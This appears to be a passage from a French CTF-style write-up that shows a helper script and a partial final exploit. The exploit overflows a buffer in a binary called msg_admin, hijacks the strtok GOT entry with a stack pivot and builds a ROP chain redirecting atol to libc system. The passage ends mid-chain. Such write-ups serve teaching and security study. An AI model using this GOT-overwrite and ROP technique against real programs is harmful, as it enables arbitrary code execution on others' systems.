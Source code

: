 ```python
        values[numpy.uint32(value)].append(BASE + offset)
        offset += 4

cases = set()
for value1 in values:
    for value2 in values:
        for value3 in values:
            if frozenset({value1, value2, value3}) in cases:
                continue

            if value1 + value2 + value3 == TARGET:
                print("value 1 is", value1)
                print("addresses:", ", ".join([hex(addr) for addr in values[value1]]))

                print("value 2 is", value2)
                print("addresses:", ", ".join([hex(addr) for addr in values[value2]]))

                print("value 3 is", value3)
                print("addresses:", ", ".join([hex(addr) for addr in values[value3]]))
                cases.add(frozenset({value1, value2, value3}))
                print('')

```

Mon exploit final :   

```python
import struct

STRTOK = 0x804b05c  # objdump -D msg_admin| grep -A2 strtok
PIVOT = 0x08048dd9  # add esp, 0x1c ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
EAX_3 = 0x08048760  # mov eax, 0x804b077 ; sub eax, 0x804b074 ; cmp eax, 6 ; ja 0x804877f ; ret
POP_EBX = 0x0804859d  # pop ebx ; ret
ATOL = 0x804b04c
OVERWRITE = 0x08048feb  # add eax, dword ptr [ebx + 0x1270304] ; ret
CALL_EAX = 0x08048786
FOO = 0x8048eef

LIBC_SYSTEM_OFFSET = 0x00040190
LIBC_ATOL_OFFSET = 0x00031890
# diff is 0xe900, need to add 0xe8fd as eax will be 3

GROW_1 = 0x8048444  # 0x0000302e
GROW_2 = 0x80488e4  # 0x0000b8c2
GROW_3 = 0x8049f24  # 0x0000000d

with open("bad_message.msg", "wb") as fd:
    fd.write(b"z"*228)
    fd.write(struct.pack("<I", STRTOK))
    fd.write(b"|")
    fd.write(b"A"*28)
    # start of our ROP chain
    fd.write(struct.pack("<I", EAX_3))

    fd.write(struct.pack("<I", POP_EBX))
    fd.write(struct.pack("<I", ATOL - 0x1270304))
    fd.write(struct.pack("<I", OVERWRITE))  # eax is now atol@@GLIBC+3

    # we still have to add 0xe8fd to eax to make it point to system
    fd.write(struct.pack("<I", POP_EBX))
    fd.write(struct.pack("<I", GROW_1 - 0x1270304))  # add 0x302e
    fd.write(struct.pack("<I", OVERWRITE))

    # still 0xb8cf to add
```